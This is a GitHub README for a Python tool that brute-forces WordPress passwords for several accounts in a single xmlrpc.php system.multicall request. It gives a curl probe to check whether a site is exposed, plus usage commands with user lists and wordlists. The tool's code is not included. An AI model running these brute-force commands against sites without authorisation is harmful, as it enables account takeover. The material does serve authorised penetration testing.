 # xmlrpc multi request
Python 3 script for bruteforcing multiple Wordpress users using only one request per password.

<img src="xmlrpc.png" alt="basic usage" width="600"/>


## How does it work?
The [Hacktrick's Wordpress Pentesting Guide](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/wordpress#xml-rpc) mentions that, if xmlrpc.php is enabled, Bruteforcing and DoS attacks can be used by abusing the system functionalities, including trying multiple users with **only one request**, using the `system.multicall` function (see [here](https://1517081779-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F-L_2uGJGU7AVNRcqRvEi%2Fuploads%2FILyTlmNzv1D9YhHQAJo2%2Fimage.png?alt=media&token=5aa88cc4-baa0-4e54-87c1-2cc31203199d)).

## Testing the vulnerability

Run this command, replacing `wordpress-blog.com` with your website:
```
curl -d "<methodCall><methodName>system.listMethods</methodName><params></params></methodCall>" -X POST http://wordpress-blog.com/xmlrpc.php
``` 

See if the response is an XML with all functionalities available, like: 
```
<?xml version="1.0" encoding="UTF-8"?>
<methodResponse>
  <params>
    <param>
      <value>
      <array><data>
  <value><string>system.multicall</string></value>
  <value><string>system.listMethods</string></value>
  <value><string>system.getCapabilities</string></value>
  <value><string>demo.addTwoNumbers</string></value>
  [...]
```
Then, it's probably **vulnerable**.

## Installation

```
pip install requests
curl {link} | tee xmlrpc.py 
```

## Usage

### Basic Usage:
```
python3 xmlrpc.py --target=https://your-blog.com --users admin,editor,reader
```

### Setting an specific wordlist:
```
python3 xmlrpc.py --target=https://your-blog.com --users admin,editor,reader --wordlist=my_wordlist.txt
```

### Start the bruteforce with an word inside the wordlist:
```
python3 xmlrpc.py --target=https://your-blog.com --users admin,editor,reader --wordlist=my_wordlist.txt --word=super_secure_password
```

### Using the config.json file:
By default, xmlrpc.py saves in the `config.json` the last session:

```
{
    "host":"http://your-blog.com/xmlrpc.php",
    "users":"['admin', 'editor', 'reader']",
    "WORDLIST":"/usr/share/wordlists/rockyou.txt",
    "WORD":"mcfly",
    "debug":"False"
}
```

You can replay that session running:

```
python3 xmlrpc.py --config config.json
``` 

## License
This project is under [GNU GPLv3](LICENSE).
